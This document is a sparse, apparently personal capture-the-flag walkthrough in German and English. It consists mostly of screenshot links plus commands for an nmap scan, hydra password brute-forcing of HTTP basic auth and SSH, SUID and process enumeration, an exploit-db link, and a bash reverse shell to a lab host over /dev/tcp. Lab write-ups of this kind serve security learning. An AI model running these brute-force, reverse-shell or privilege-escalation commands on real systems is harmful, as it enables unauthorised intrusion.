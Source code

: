 ```yaml
---
tags: []
---
```

`nmap 192.168.56.0/24`
mit allen ports
-T4 damit keine firewallfaxen
![](https://i.imgur.com/tHI2XTr.png)
![](https://i.imgur.com/zDYaCOo.png)
![](https://i.imgur.com/j91Why2.png)
![](https://i.imgur.com/q0VnnIQ.png)
![](https://i.imgur.com/fYH07pU.png)
![](https://i.imgur.com/PwZ7OPm.png)
![](https://i.imgur.com/swWh73v.png)
![](https://i.imgur.com/RP6nULv.png)
![](https://i.imgur.com/LXOBUyI.png)
![](https://i.imgur.com/qAzMgsR.png)
![](https://i.imgur.com/JzQxk21.png)
python file für proof zeigen
github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
https://tylerrockwell.github.io/defeating-basic-auth-with-hydra/
`hydra -l user -P pw.txt -s 55487 -f 192.168.15.3 http-get /`
![](https://i.imgur.com/te7iJGH.png)
![](https://i.imgur.com/xRTQq5n.png)
`FLAG{use_secure_credentials}`
![](https://i.imgur.com/Y5ivt2h.png)
![](https://i.imgur.com/AtXi9lB.png)
![](https://i.imgur.com/di16GFC.png)
![](https://i.imgur.com/gY0Oxyp.png)
`ls -R *`
![](https://i.imgur.com/4qrGK7s.png)
![](https://i.imgur.com/MdvNqDN.png)
![](https://i.imgur.com/2Xhqji1.png)
`hydra -l GrumpyCat -P pw.txt 192.168.15.3 ssh -t 4`
`find -perm -4000 2> /dev/null`
![](https://i.imgur.com/0LOwRRt.png)
`cat /proc/741/cmdline`
`find -name "ctf_server.py" 2> /dev/null`
https://superuser.com/questions/632979/if-i-know-the-pid-number-of-a-process-how-can-i-get-its-name
![](https://i.imgur.com/nJoBuRJ.png)
https://medium.com/techiepedia/series-of-ctf-machines-walkthrough-4-linux-privilege-escalation-enumeration-247899027be
`ls -R * 2>dev/null| grep -i flag`
`cat /usr/local/bin/flag_process.sh`
![](https://i.imgur.com/0KhHbmc.png)
![](https://i.imgur.com/UGcn08t.png)
![](https://i.imgur.com/MFNTBGs.png)
![](https://i.imgur.com/Z885wJP.png)
![](https://i.imgur.com/ziYwvHF.png)
https://www.exploit-db.com/exploits/42274


https://www.puckiestyle.nl/upgrading-netcat-shells-to-meterpreter-sessions/
`bash -i> /dev/tcp/192.168.15.4/6969 0>&1`
![](https://i.imgur.com/ne9aUCq.png)
![](https://i.imgur.com/XJU4hYR.png)
![](https://i.imgur.com/WUgbYOs.png)
suid thing
```bash
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
```
